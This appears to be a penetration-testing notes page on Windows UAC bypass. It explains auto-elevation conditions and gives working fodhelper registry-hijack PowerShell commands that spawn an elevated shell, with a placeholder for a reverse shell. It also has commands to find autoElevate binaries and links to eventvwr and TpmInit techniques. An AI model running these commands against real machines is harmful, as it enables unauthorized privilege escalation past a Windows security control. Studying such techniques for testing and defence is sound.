 # ⭕ UAC Bypass

{% embed url="https://www.fuzzysecurity.com/tutorials/27.html" %}

{% embed url="https://www.greyhathacker.net/?p=796" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel’s functionality and some executables provided with Windows.

{% hint style="info" %}
x86–32/x64 Windows 7/8/8.1/10 (client, some methods, however, works on server version too).Admin account with UAC set on default settings required.
{% endhint %}

condition to meet auto-elevate:

* The executable must be signed byt the windows publisher
* The executable must be contained in a trusted directory, like **`%SystemRoot%/System32/` or `%ProgramFiles%/\`**
* Executable files (.exe) must declare the autoElevate element inside the manifests.
* sigcheck tool can be used to view the manifest for autoelevate privileges

### <mark style="color:orange;">**Fodhelper**</mark>

Fodhelper.exe is one of Windows default executables in charge of managing Windows optional features, including additional languages, applications not installed by default, or other operating-system characteristics. Like most of the programs used for system configuration, **fodhelper can auto elevate** when using default UAC settings so that administrators won’t be prompted for elevation when performing standard administrative tasks. While we’ve already taken a look at an autoElevate executable, unlike msconfig, fodhelper can be abused without having access to a GUI.

```
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
cmd> fodhelper

Spaw anything:
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value 'your-reverse-shell' -Force
```

![](<../../.gitbook/assets/image (120).png>)

{% embed url="https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/" %}

{% embed url="https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/" %}

{% embed url="https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1" %}

#### <mark style="color:green;">using metasploit:</mark>

{% embed url="https://github.com/rapid7/metasploit-framework/pull/8434/files" %}

### <mark style="color:orange;">Other ways</mark>&#x20;

{% embed url="https://github.com/FULLSHADE/Auto-Elevate" %}

#### <mark style="color:green;">find auto-elevating applications on windows 10:</mark>

```
# 64 bit apps
Get-ChildItem "C:\Windows\System32\*.exe" | Select-String -pattern "<autoElevate>true</autoElevate>"

# 32 bit apps
Get-ChildItem "C:\Windows\SysWOW64\*.exe" | Select-String -pattern "<autoElevate>true</autoElevate>"
```

### <mark style="color:orange;">eventvwr.exe & Registry Hijacking</mark>

{% embed url="https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/" %}

### <mark style="color:orange;">TpmInit.exe</mark>

{% embed url="https://uacmeltdown.blogspot.com/2016/08/bypassing-user-account-control-uac.html" %}
